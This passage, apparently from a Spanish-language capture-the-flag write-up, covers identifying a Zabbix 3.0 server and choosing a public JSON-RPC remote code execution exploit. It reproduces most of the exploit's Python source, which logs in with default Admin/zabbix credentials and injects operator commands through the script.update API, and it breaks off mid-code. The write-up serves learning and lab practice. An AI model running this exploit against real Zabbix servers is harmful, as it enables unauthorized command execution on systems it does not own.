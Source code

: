 ``` text
```

Como podemos ver, existen bastantes vulnerabilidades asociadas a las diferentes versiones de zabbix, pero en este momento aun no sabemos que versión de zabbix tenemos. Eso lo resolvemos al entrar como guest y buscar los manuales de ayuda, los cuales hacen referencia a la versión 3.0, por lo que partimos de tener la versión 3.

En mi caso, elegí el exploit de `Zabbix 2.2 < 3.0.3 - API JSON-RPC Remote Code Execution`, el cual tiene el siguiente código:

``` python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Exploit Title: Zabbix RCE with API JSON-RPC
# Date: 06-06-2016
# Exploit Author: Alexander Gurin
# Vendor Homepage: http://www.zabbix.com
# Software Link: http://www.zabbix.com/download.php
# Version: 2.2 - 3.0.3
# Tested on: Linux (Debian, CentOS)
# CVE : N/A

import requests
import json
import readline

ZABIX_ROOT = 'http://192.168.66.2'	### Zabbix IP-address
url = ZABIX_ROOT + '/api_jsonrpc.php'	### Don't edit

login = 'Admin'		### Zabbix login
password = 'zabbix'	### Zabbix password
hostid = '10084'	### Zabbix hostid

### auth
payload = {
   	"jsonrpc" : "2.0",
    "method" : "user.login",
    "params": {
    	'user': ""+login+"",
    	'password': ""+password+"",
    },
   	"auth" : None,
    "id" : 0,
}
headers = {
    'content-type': 'application/json',
}

auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
auth = auth.json()

while True:
	cmd = raw_input('\033[41m[zabbix_cmd]>>: \033[0m ')
	if cmd == "" : print "Result of last command:"
	if cmd == "quit" : break

### update
	payload = {
		"jsonrpc": "2.0",
		"method": "script.update",
		"params": {
		    "scriptid": "1",
		    "command": ""+cmd+""
```